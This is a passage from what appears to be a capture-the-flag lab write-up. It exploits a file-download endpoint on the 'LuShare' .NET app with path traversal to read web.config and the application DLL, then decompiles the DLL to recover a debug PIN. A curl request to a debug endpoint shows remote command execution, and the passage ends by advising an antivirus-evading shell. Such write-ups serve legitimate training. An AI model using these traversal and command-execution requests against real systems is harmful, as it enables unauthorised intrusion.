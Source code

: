 ![lushare](lushare_admin_cmd.png)

## RCE via debug functionality

In order to run a command, we would however need a pin code. Usually such a secret would either be in web.config or in the source code of the application. Let's see if we can read web.config:

```terminal
# request
http://lus2dc.lustrous2.vl/File/Download?fileName=../../web.config

# response
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="dotnet" arguments=".\LuShare.dll" stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="inprocess" />
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 4E46018E-B73C-4E7B-8DA2-87855F22435A-->
```

While this has no pin code, we see that this a .NET core application that is run from `LuShare.dll`. We use the LFI to grab the file from the same location as web.config and start to reverse it:

```terminal
# request
http://lus2dc.lustrous2.vl/File/Download?fileName=../../LuShare.dll
```

To decompile the .NET dll, we are using [CodemerxDecompile](https://github.com/codemerx/CodemerxDecompile) as this runs on linux and doesn't require VM switching.

![lushare](lushare_reverse.png)

Here we can see the value of required the pin code and also that the commands are actually powershell commands in a custom runspace that is length restricted and using constrained language mode. 

Let's confirm we can run commands by using curl:

```terminal
curl --negotiate -u : -X POST http://lus2dc.lustrous2.vl/File/Debug -d 'pin=***&command=whoami'

lustrous2\sharesvc
```

This confirms we do have RCE here. In order to get a shell, use your favorite av-evading shell binary, upload & run it.
